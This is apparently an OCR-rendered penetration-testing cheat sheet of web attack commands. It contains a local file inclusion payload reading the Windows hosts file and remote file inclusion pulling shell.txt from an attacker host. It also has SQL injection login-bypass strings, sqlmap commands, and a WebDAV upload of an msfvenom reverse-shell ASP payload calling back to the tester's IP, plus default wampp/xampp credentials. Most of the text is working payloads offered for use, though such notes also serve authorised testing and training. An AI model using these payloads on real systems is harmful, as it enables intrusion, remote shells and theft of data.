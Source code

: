 ```
# Bypass extension
http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=../../../../windows/system32/drivers/etc/hosts
base64 -d output of above

# Remote File Inclusion
python -m SimpleHTTPServer 80
http://INSERTIPADDRESS/page=http://10.11.0.150/shell.txt%00
http://INSERTIPADDRESS/page=http://10.11.0.150/shell.txt?
```

### Sql-login-bypass

```
# Login Bypass Checks
Username/Password: 
1' or '1'='1 
1' or 1=1 LIMIT 1;# 
'or 1=1/*
'or '1'='1' --
'or '1'='1' ({
'or '1'='1' /*

# Automated
- Open Burp-suite
- Make and intercept request
- Send to intruder
- Cluster attack
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation
```

### SQL-Injection

```
# Post
get post request from Burp and save as search-test.txt
sqlmap -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```

### WebDav

```
cadaver INSERTIPADDRESS
Try to put a shell.asp

cd /root/Dropbox/Engagements/INSERTIPADDRESS/exploit && msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f asp -o shell.asp

put /root/Dropbox/Engagements/INSERTIPADDRESS/exploit/shell.asp
If the .asp extention is not allowed, try shell.asp.txt and use the mv command

user: wampp
pass: xampp 
```
### Password brute force - last resort
